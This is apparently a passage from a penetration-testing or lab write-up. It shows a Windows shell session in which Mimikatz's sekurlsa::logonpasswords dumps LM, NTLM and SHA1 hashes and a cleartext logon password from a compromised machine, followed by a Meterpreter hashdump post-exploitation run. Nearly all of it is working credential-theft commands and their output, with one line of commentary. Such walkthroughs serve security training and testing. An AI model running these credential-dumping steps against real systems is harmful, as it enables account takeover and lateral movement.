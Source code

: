 ```
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2010 Microsoft Corporation.  All rights reserved.

C:\>cd /
cd /

C:\>mimikatz
mimikatz

  .#####.   mimikatz 2.2.0 (x64) #18362 Jul 20 2019 22:57:37
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

...

Authentication Id : 0 ; 98755 (00000000:000181c3)
Session           : Interactive from 1
User Name         : oem
Domain            : WINDOWS-TUNJ16P
Logon Server      : WINDOWS-TUNJ16P
Logon Time        : 2019/08/02 10:38:51
SID               : S-1-5-21-2247147016-1392460751-1571210327-1000
	msv :	
	 [00000003] Primary
	 * Username : oem
	 * Domain   : WINDOWS-TUNJ16P
	 * LM       : 31b28f123b9f757393e28745b8bf4ba6
	 * NTLM     : 424eded08f322383c2e24b09076121a0
	 * SHA1     : c30c7f0328be8043fd30b3a54f6c58c94485a3d7
	wdigest :	
	 * Username : oem
	 * Domain   : WINDOWS-TUNJ16P
	 * Password : TDEGpass
	kerberos :	
	 * Username : oem
	 * Domain   : WINDOWS-TUNJ16P
	 * Password : TDEGpass
	ssp :	
	credman :	
```

You can see that Mimikatz was able to dump a clear text version of the password alongside the hashes, no JtR required. Alternately you could dump the hashes and try to crack the password. 
```
meterpreter > run post/windows/gather/hashdump 

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY ddd5f8aa2cd1c8ea28af02f4b001e602...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...

```